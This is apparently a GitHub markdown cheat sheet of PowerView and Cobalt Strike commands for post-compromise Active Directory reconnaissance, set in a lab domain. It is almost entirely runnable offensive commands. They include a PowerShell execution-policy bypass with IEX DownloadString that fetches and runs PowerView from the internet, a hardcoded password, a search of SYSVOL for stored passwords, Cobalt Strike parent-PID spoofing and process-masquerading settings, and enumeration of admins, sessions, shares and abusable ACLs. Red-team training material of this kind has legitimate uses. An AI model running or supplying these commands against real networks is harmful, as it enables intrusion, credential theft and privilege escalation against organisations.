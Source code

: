 ## INFO0

### Pre-Commands
```
runas /netonly /user:marvel.local\user1 powershell
powershell -exec bypass
Import-Module .\PowerView.ps1
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1");
```

### Use alternative creadential for any function
```
$SecPassword = ConvertTo-SecureString 'P@ssw0rd' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('marvel.local\user3', $SecPassword)
Get-DomainUser -Credential $Cred
```

### Search on Interesting Keywords Inside Files on Shares
```
findstr /spin /c:"password" \\hydra-dc\sysvol\*
```

### Cobalt Strike
```
powershell-import /root/PowerView.ps1
ppid 392
spawnto x64 C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
powerpick Get-Domain
```

## INFO1

### Domain Info
```
Get-Domain
Get-Forest
Get-DomainController
```

### Password Policy
```
Get-DomainPolicy | select -ExpandProperty systemaccess
```

### Enumerate Domain Users
```
Get-DomainUser | select cn,samaccountname,description,pwdlastset,badpwdcount
Get-DomainUser -SPN | select samaccountname,serviceprincipalname
Get-DomainUser -SPN | ?{$_.memberof -match 'Domain Admins'}
```

### Enumerate Domain Groups
```
Get-DomainGroup *admin* | select cn,samaccountname,description,member,memberof
```

### Enumerate Domain OUs
```
Get-DomainOU | select name,description,whencreated,whenchanged,gplink
```

### Enumerate Domain Computers
```
Get-DomainComputer | select dnshostname,operatingsystem,pwdlastset
```

### Enumerate Domain Group Members
```
Get-DomainGroupMember -Identity "Domain Admins" -Recurse | select groupname,membername,memberobjectclass
```

### Enumerate <User/Group> Groups
```
Get-DomainGroup -MemberIdentity <User/Group> | select samaccountname
```

## INFO2

### Enumerate Open Shares
```
Get-NetShare -ComputerName WorkStation1
```

### Enumerate Open Shares on All Domain Computers (Get-DomainComputer + Get-NetShare)
```
Find-DomainShare -Verbose
```

### Enumerate Open Shares That You Have Read Access
```
Find-DomainShare -CheckShareAccess -Verbose
```

### Search for Interesting Files Inside Shares
```
Find-InterestingFile -Path \\hydra-dc\sysvol\
```

### Find Interesting Domain Share Files (Find-DomainShare + Find-InterestingFile)
```
Find-InterestingDomainShareFile -Verbose
```

## INFO3

### Enumerate Local Groups
```
Get-NetLocalGroup –ComputerName WorkStation1
```

### Enumerate Local Group Members Of Administrators Group on Computer WorkStation1
```
Get-NetLocalGroupMember -ComputerName WorkStation1 -GroupName "Administrators"
Get-NetLocalGroupMember -ComputerName WorkStation1 -GroupName "Remote Desktop Users"
```

### Enumerate Local Group Members on All Domain Computers (Get-DomainComputer + Get-NetLocalGroupMember)
```
Find-DomainLocalGroupMember -GroupName "Administrators" -Verbose
```

### Test Admin Access Rights on a Computer
```
Test-AdminAccess -ComputerName workstation1
```

### Test Admin Access Rights on All Domain Computers (Get-DomainComputer + Test-AdminAccess)
```
Find-LocalAdminAccess -Verbose
```

## INFO4

### Enumerate Users Sessions
```
Get-NetSession -ComputerName WorkStation1
```

### Enumerate LoggedOn Users
```
Get-NetLoggedon -ComputerName workstation1
```

### Get Domain Admins + Run Get-NetSession/Get-NetLoggedon on Every Domain Computer + Comparing The Result
```
Find-DomainUserLocation -Verbose
```

### Perform Against Highly Traffic Servers (Get-DomainFileServer, Get-DomainDFSShare, Get-DomainController)
```
Find-DomainUserLocation -Stealth -Verbose
```

### Run Get-NetSession/Get-NetLoggedon on Every Domain Computer Then Printing All The Result
```
Find-DomainUserLocation -ShowAll
```

### Perform Against Different Users or Groups
```
Find-DomainUserLocation -UserGroupIdentity "local_admin"
Find-DomainUserLocation -UserIdentity "ITSupport"
```

## INFO5

### Enumerate All The Domain ACLs For Non BuiltIn Users With Modification Access
```powershell
Find-InterestingDomainAcl -ResolveGUIDs -WarningAction:SilentlyContinue | select IdentityReferenceName,ObjectDN,ActiveDirectoryRights,ObjectAceType
```

### Enumerate all the special ACLs
```powershell
Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "GenericAll|WriteDacl|WriteOwner|GenericWrite" -and $_.SecurityIdentifier -match "S-1-5-21-410602843-3916082903-3170366279-[\d]{4,10}" } | select SecurityIdentifier,ObjectDN,ActiveDirectoryRights,ObjectAceType | fl
```

